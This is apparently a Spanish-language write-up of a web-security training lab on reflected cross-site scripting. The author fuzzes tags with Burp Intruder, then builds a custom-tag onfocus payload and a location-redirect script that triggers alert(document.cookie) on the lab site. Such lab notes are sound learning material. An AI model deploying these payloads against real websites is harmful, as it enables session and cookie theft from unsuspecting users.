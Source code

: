 1.He decidido ir a intruder y pegar los payloads que tengo en la lista.

De entre todos he filtrado por 200 y he estado echando un vistazo. Hay muchos y me han dado basantes ideas. Creo que el más fácil es usar que cuando un elemento esté focuseado se lance algo. Por lo cual he filtrado por onfocus.

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>
```
![](assets/2022-07-15-10-22-13.png)



La request es esta y efectivamente no la descarta por no estar permitida el tag.

![](assets/2022-07-15-10-22-52.png)



Cambiamos el alert 1 por document.cookie
```html
/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>
```
Vale se lanza pero no hace nada. eso es porque hay que ir hasta su etiqueta. Digamos que estamos haciendo un ancla que cuando lo llamemos coja y se focuse ... Sabemos que las llamadas a los anclas son con **#nombreancla** . En este caso se llama la id según el payload x , pero se podría haber llamado "lo que sea" por lo cual será la url seguido de #x . Voy a probar esto en el script usando mi url

Mirando los colores obviamente algo está mal, no ereconoce una url como una acción. Para ir a alguna página hay que usar el location
```js
<script>
    https://0a2000f5049062c3c00f1455005d00c2.web-security-academy.net/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>#x
    </script>
```
usando location

```js
<script>
    location='https://0a2000f5049062c3c00f1455005d00c2.web-security-academy.net/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>#x';
    </script>
```

![](assets/2022-07-15-10-33-56.png)
